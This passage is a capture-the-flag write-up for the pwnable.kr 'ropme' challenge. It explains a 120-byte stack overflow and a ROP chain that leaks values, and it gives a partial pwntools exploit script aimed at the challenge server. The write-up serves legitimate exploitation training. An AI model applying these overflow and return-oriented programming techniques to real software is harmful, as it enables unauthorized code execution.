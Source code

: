 Because the challenge called `ropme` I know I will need to build a rop-chain. A `ropchain` is basically jumping from function to function until we get what we need. in this example (without even checking) I can tell that the `A()` function will leak the value of `A`:
```C
void A(void)
{
   printf("You found \"Tom Riddle\'s Diary\" (EXP +%d)\n",a__RANDOM_EVERY_RUN);
   return;
}
```
I was right!
We can build a rop chain that executing:
- `A`
- `B`
- `C`
- `D`
- `E`
- `F`
- `G`
- `ropme`
We should get a leak of all the values, and calling `ropme` again will let us to fill the sum of all of them and to get the flag!

## Exploit
After some good old `pwn cyclic` I found out that I can override the return address of `ropme` after `120` bytes.
I tried changing it to be the address of the `ropme` function itself, but it has a null byte: `0x080a0009`. So instead I used the `0x0809fffc` which the address where `main` is calling the `ropme` function.
This is the final exploit:
```python
import sys
from pwn import *

p = remote('pwnable.kr', 9032)

func_ropme_addr = p32(0x0809fffc)
func_A_addr = p32(0x0809FE4B)
func_B_addr = p32(0x0809FE6A)
func_C_addr = p32(0x0809FE89)
func_D_addr = p32(0x0809FEA8)
func_E_addr = p32(0x0809FEC7)
func_F_addr = p32(0x0809FEE6)
func_G_addr = p32(0x0809FF05)

p.recvuntil(b"Select Menu:")
p.sendline(b"1")
payload = b''
payload += b'A'*120
payload += func_A_addr
payload += func_B_addr
payload += func_C_addr
payload += func_D_addr
payload += func_E_addr
payload += func_F_addr
payload += func_G_addr
payload += func_ropme_addr
p.sendline(payload)
p.readline()

total = 0
x = int(p.readline().split(b"+")[-1][:-2].decode())
print("Current Number:", x)
```